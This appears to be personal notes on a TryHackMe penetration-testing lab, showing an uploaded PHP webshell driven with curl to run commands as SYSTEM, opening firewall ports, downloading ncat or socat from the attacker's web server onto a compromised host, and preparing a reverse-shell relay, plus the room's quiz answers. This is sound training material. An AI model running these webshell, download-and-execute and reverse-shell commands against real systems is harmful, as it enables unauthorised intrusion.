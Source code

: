 In the previous task we had a look through the source code of the exploit we found, identified the lines which needed to be updated, then made the necessary changes.

![[Exploitation-20241222141211867.webp]]

Success!

Not only did the exploit work perfectly, it gave us command execution as NT AUTHORITY\SYSTEM, the highest ranking local account on a Windows target.

From here we want to obtain a full reverse shell. We have two options for this:

1. We could change the command in the exploit and re-run the code
2. We could use our knowledge of the script to leverage the same webshell to execute more commands for us, without performing the full exploit twice

Option number two is a lot quieter than option number 1, so let's use that.

---

The webshell we have uploaded responds to a POST request using the parameter "`a`" (by default). This means that we have two easy ways to access this. We could use cURL from the command line, or BurpSuite for a GUI option.

## With cURL  
`curl -X POST http://IP/web/exploit-USERNAME.php -d "a=COMMAND"`

![[Exploitation-20241222145319679.webp]]

> [!Note]
>In this screenshot,_`gitserver.thm` has been added to the `/etc/hosts` file on the attacking machine, mapped to the target IP address.


## With BurpSuite
We first turn on our Burp proxy (see the [Burpsuite room](https://tryhackme.com/room/rpburpsuite) if you need help with this!) and navigate to the exploit URL:

![[Exploitation-20241222145720411.webp]]

Press send, and see the response come in!

![[Exploitation-20241222145746536.webp]]

With two methods available, pick your favorite and we'll aim for a shell!


---
# Your job

- Create a webshell with cURL.
	`curl -X POST http://10.200.84.150/web/exploit-KAIROS.php -d "a=whoami"`
	
	![[Exploitation-20241222152701712.webp]]
- Check the target for information.
	`curl -X POST http://10.200.84.150/web/exploit-KAIROS.php -d "a=systeminfo"`
	 ![[Exploitation-20241222152545435.webp]]

> [!Question]
>1. First up, let's use some basic enumeration to get to grips with the webshell: What is the hostname for this target?
>`git-serv`
>2. What operating system is this target?
>`Windows`
>3. What user is the server running as?
>`NT AUTHORITY\SYSTEM`


Before we go for a reverse shell, we need to establish whether or not this target is allowed to connect to the outside world. The typical way of doing this is by executing the `ping` command on the compromised server to ping our own IP and using a network interceptor (Wireshark, TCPDump, etc) to see if the ICMP echo requests make it through. If they do then network connectivity is established, otherwise we may need to go back to the drawing board.

**On the attacking machine:**
To start up a TCPDump listener we would use the following command:  
`tcpdump -i tun0 icmp`  

> [!Note]
>If your VPN is not using the tun0 interface then you will need to replace this with the correct interface for your system which can be found using `ip -a link` to see the available interfaces.

Now, using the webshell, execute the following ping command (substituting in your own VPN IP!):  
`ping -n 3 ATTACKING_IP`

Run:
$ `curl -X POST http://10.200.84.150/web/exploit-KAIROS.php -d "a=ping -n 3 10.50.85.33"`

![[Exploitation-20241224144002376.webp]]

> [!Question]
> 4. How many make it to the waiting listener?
> `0`


---

Looks like we're going to need to think outside the box to catch this shell.

We have two easy options here:

- Given we have a fully stable shell on .200, we could upload a static copy of [netcat](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/ncat) and just catch the shell here.
- We could set up a relay on .200 to forward a shell back to a listener.

It is up to you which option you choose (although for the sake of practice, a socat relay is suggested); however, whichever way you choose, please be mindful of other users at earlier stages of the network and **ensure that any ports you open are above 15000.**

## Firewall

Before we can do this, however, we need to take one other thing into account. CentOS uses an always-on wrapper around the IPTables firewall called "firewalld". By default, this firewall is extremely restrictive, only allowing access to SSH and anything else the sysadmin has specified. Before we can start capturing (or relaying) shells, we will need to open our desired port in the firewall. This can be done with the following command:  
`firewall-cmd --zone=public --add-port PORT/tcp`  
Substituting in your desired choice of port.

In this command we are using two switches. First we set the zone to public -- meaning that the rule will apply to every inbound connection to this port. We then specify which port we want to open, along with the protocol we want to use (TCP).

With that done, set up either a listener or a relay on .200.


> [!Hint]
> Either upload a static copy of netcat, or perform a socat relay (described in task 13). If performing a socat relay you will need to relay the connection back to an open port on your attacking machine.


- Create a Firewall rule.
	- Connect to the prod-server (10.200.84.200) via SSH.
		$ `ssh root@10.200.84.200 -i id_rsa`
	- Create a Firewall rule to allow connections through.
		root@prod-serv ~# `firewall-cmd --zone=public --add-port 23337/tcp`

## Copy of netcat

Get **ncat** binary from attacker machine.
- Download ncat from https://github.com/andrew-d/static-binaries.git.
	$ `git clone https://github.com/andrew-d/static-binaries.git`

- Open a Python Webserver.
	$ `sudo python3 -m http.server 80`

- On the Reverse Shell terminal run:
	root@prod-serv ~# `curl 10.50.85.33/ncat -o /tmp/ncat-sv && chmod +x /tmp/ncat-sv`
	
- Open a listener on the Reverse Shell.
	root@prod-serv tmp# `./ncat-sv -nvlp 23337`


## Socat relay
- On Kali Linux socat's path is `/usr/bin/socat1`.

- Copy that file to your working directory.

- Rename it to `socat-KAIROS`.

- Open a Python Webserver.
	$ `sudo python3 -m http.server 80`

- On the Reverse Shell terminal run:
	root@prod-serv ~# `curl 10.50.85.33/socat-KAIROS -o /tmp/socat-KAIROS && chmod +x /tmp/socat-KAIROS`

- Create the connection back to the attacking machine.



- On the attacking machine use powershell reverse-shell one-liner with webshell using curl.
- `curl -X POST http://10.200.84.150/web/exploit-KAIROS.php -d "a=<URL-encoded command>"`



- **Bonus Question (Optional):** Using the given code for the exploit we used against the web server, see if you can adapt this exploit to create a full pseudoshell environment.